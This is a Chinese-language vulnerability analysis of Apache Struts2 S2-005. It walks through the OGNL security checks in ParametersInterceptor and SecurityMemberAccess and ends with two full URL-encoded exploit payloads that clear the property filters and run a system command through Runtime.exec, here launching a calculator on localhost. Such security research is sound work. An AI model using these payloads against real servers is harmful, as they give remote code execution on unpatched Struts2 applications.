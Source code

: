 # s2-005漏洞分析

## 影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

在struts2-core 2.0.12更新以后在， `ParametersInterceptor#setParameters` 方法当中，这里不再使用原有的 `ValueStack`，而是通过`ValueStackFactory` 为当前值栈重新初始化 `ValueStack`

![](img/1.png)

同时设置了 `acceptParams` 和 `excludeParams` 

```java
boolean memberAccessStack = newStack instanceof MemberAccessValueStack;
if (memberAccessStack) {
  MemberAccessValueStack accessValueStack = (MemberAccessValueStack)newStack;
  accessValueStack.setAcceptProperties(this.acceptParams);
  accessValueStack.setExcludeProperties(this.excludeParams);
}
```

![](img/2.png)

这里还有个比较关键的地方在调用`createValueStack`的时候里面setRoot方法,，会创建 `SecurityMemberAccess` 对象,在哪里呢，在这里被保存到了上下文当中

![](img/3.png)

相关调用栈

```java
setMemberAccess:185, OgnlContext (ognl)
addDefaultContext:243, Ognl (ognl)
createDefaultContext:172, Ognl (ognl)
setRoot:361, OgnlValueStack (com.opensymphony.xwork2.util)
<init>:104, OgnlValueStack (com.opensymphony.xwork2.util)
createValueStack:19, OgnlValueStackFactory (com.opensymphony.xwork2.util)
setParameters:199, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
doIntercept:176, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
```

最终在这里设置了`memberAccess`

![](img/4.png)

那如何获得呢

![](img/5.png)

首先还是按照原来的payload打一通



通过`com.opensymphony.xwork2.util.SecurityMemberAccess#isAccessible`检查权限，这里面调用了`this.getAllowStaticMethodAccess()`

，在经过一系列的调用之后最终会到`com.opensymphony.xwork2.util.SecurityMemberAccess#isAcceptableProperty`

```java
    protected boolean isAcceptableProperty(String name) {
        return this.isAccepted(name) && !this.isExcluded(name);
    }
```

但是在`isExcluded`会触发报错，原因是`paramName`参数为空

```java
    protected boolean isExcluded(String paramName) {
        if (!this.excludeProperties.isEmpty()) {
            Iterator i$ = this.excludeProperties.iterator();

            while(i$.hasNext()) {
                Pattern pattern = (Pattern)i$.next();
                Matcher matcher = pattern.matcher(paramName);
                if (matcher.matches()) {
                    return true;
                }
            }
        }

        return false;
    }
```

解决方法是通过`Ognl`表达式把`excludeProperties`设置为空即可绕过判断，现在就来解决这个问题，我们上面提到了`_memberAccess`可以获得这个`SecurityMemberAccess`对象，因此不难想到如下的设置即可

```java
#_memberAccess.acceptProperties=@java.util.Collections@EMPTY_SET
```

那么新的payload也来了，整个过程也还算顺利

```
http://127.0.0.1:8080/login.action?(%27\u0023_memberAccess.acceptProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

## PS

再多说一个，刚刚发现在高版本，这里指的是struts-core2.1.2以后，`allowStaticMethodAccess`默认设置为`false`了，还是可以修改的

```java
http://127.0.0.1:8080/login.action?(%27\u0023_memberAccess.allowStaticMethodAccess\u003dtrue%27)(abc)(def)&(%27\u0023_memberAccess.acceptProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

